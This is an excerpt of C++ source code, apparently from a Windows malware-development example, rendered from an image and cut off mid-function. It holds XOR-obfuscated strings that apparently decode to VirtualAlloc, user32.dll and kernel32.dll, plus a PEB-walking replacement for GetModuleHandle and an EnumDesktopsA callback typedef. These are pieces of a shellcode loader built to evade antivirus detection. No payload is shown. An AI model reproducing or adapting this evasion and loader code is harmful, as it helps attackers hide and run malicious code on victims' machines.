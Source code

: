 ```cpp
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef BOOL (CALLBACK * EnumDesktopsA_t)(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);

LPVOID (WINAPI * pva)(LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char cva[] = 
{ 0x27, 0x1c, 0x13, 0x17, 0x1e, 0x10, 0x19, 0x20, 0xf, 0x7, 0x1e, 0x16 };
unsigned char udll[] = 
{ 0x4, 0x6, 0x4, 0x11, 0x58, 0x43, 0x5b, 0x5, 0xf, 0x7 };
unsigned char kdll[] = 
{ 0x1a, 0x10, 0x13, 0xd, 0xe, 0x1d, 0x46, 0x53, 0x4d, 0xf, 0x1d, 0x19 };

char secretKey[] = "quackquack";

// encryption / decryption XOR function
void d(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}

// custom implementation
HMODULE myGM(LPCWSTR lModuleName) {

  // obtaining the offset of PPEB from the beginning of TEB
  PEB* pPeb = (PEB*)__readgsqword(0x60);

  // obtaining the address of the head node in a linked list 
  // which represents all the models that are loaded into the process.
  PEB_LDR_DATA* Ldr = pPeb->Ldr;
  LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList; 

  // iterating to the next node. this will be our starting point.
  LIST_ENTRY* pStartListEntry = ModuleList->Flink;

  // iterating through the linked list.
  WCHAR mystr[MAX_PATH] = { 0 };
  WCHAR substr[MAX_PATH] = { 0 };
  for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; 
  pListEntry = pListEntry->Flink) {

    // getting the address of current 
    // LDR_DATA_TABLE_ENTRY (which represents the DLL).
    LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)
    ((BYTE*)pListEntry - sizeof(LIST_ENTRY));

    // checking if this is the DLL we are looking for
    memset(mystr, 0, MAX_PATH * sizeof(WCHAR));
    memset(substr, 0, MAX_PATH * sizeof(WCHAR));
```